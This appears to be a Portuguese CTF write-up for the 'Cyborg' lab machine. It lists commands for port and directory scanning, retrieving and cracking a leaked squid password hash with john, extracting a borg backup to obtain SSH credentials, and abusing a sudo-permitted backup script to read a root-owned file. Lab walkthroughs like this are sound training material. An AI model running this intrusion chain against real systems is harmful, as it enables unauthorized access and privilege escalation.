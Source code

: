 # Cyborg

* ### Scan de portas - Verificando quais portas estão abertas.
  
```bash
rustscan -a 10.10.124.91
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4cba628e-81c4-45c4-8a2c-90bf8db115a9)

![image](https://github.com/lufffe/Writeups/assets/90646635/714272e1-f712-47f1-810c-bfdcb8b2c5f4)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80 10.10.124.91
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6b1ef517-8b4b-493d-a757-c1b60a696301)

* ### Scan Arquivos e Diretorios.
```bash
gobuster dir -u http://10.10.124.91 -w ~/common.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/25acc6c1-3b75-4536-80b4-65a038a28d7e)

* ### Olhando o Http.
![image](https://github.com/lufffe/Writeups/assets/90646635/ca191423-c93e-4a57-b8e3-943d08208646)

* ### Credenciais.
http://10.10.124.91/etc/squid/passwd

![image](https://github.com/lufffe/Writeups/assets/90646635/a66e5032-dfea-4181-b887-760695099863)

```bash
john --wordlist=~/rockyou.txt hash
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9f6b321e-7ad4-489c-affe-e80ffbed412b)

* ### Baixe o arquivo no link - no menu download
http://10.10.124.91/admin/

* ### Extraindo arquivo baixado.
```bash
7z x archive.tar
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ddcd0615-33ba-4a4d-8169-c5577b5005ff)

* ### Lendo arquivo encontrado.
```bash
┌──(luffe㉿Kalizin)-[~/…/home/field/dev/final_archive]
└─$ cat README
```
![image](https://github.com/lufffe/Writeups/assets/90646635/929760ea-35d0-4522-81a2-aa34ef2450dd)

* ### Extraindo arquivo do borg.
```bash
borgbackup extract home/field/dev/final_archive::music_archive
```
![image](https://github.com/lufffe/Writeups/assets/90646635/59c33c46-18b7-404d-a763-6c285b0352ad)

* ### Lendo arquivo nas pastas do usário Alex.
```bash
cat note.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/9e7ac6e3-af64-403d-9c71-655c61ed748d)

* ### Acessando via SSH com credenciais encontradas.
```bash
ssh alex@10.10.124.91
```
* ### Flag Usuário
```bash
cat user.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/98114ca8-09aa-47a3-9aca-b3f1d9d69ba1)

```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/2203909b-308f-46ff-84db-765fba1273d8)

```bash
ls -la /etc/mp3backups/backup.sh
```
![image](https://github.com/lufffe/Writeups/assets/90646635/cc27a0cf-8429-4953-a2fa-4aa15d3aaf60)

* ### Flag Root
```bash
sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
```
![image](https://github.com/lufffe/Writeups/assets/90646635/90ccc2af-68aa-4c27-8bb6-8198be3e2b57)
